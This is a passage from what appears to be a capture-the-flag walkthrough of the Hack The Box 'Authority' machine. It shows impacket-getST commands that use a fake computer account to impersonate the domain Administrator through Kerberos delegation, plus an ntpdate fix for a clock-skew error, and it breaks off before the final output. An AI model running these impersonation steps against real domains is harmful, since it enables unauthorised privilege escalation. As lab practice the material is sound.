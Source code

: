Next, we'll use `impacket-getST` to impersonate the `Administrator` account and grab a TGT.

`impacket-getST 'authority.htb/FAKECOMPUTER$:FakeComputer!' -spn 'cifs/authority.authority.htb' -impersonate 'Administrator'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
❌

`sudo ntpdate 10.10.11.222`:
```
2024-11-07 19:41:15.050329 (+0100) +14396.009779 +/- 0.029261 10.10.11.222 s1 no-leap
CLOCK: time stepped by 14396.009779
```

`impacket-getST 'authority.htb/FAKECOMPUTER$:FakeComputer!' -spn 'cifs/authority.authority.htb' -impersonate 'Administrator'`:
```
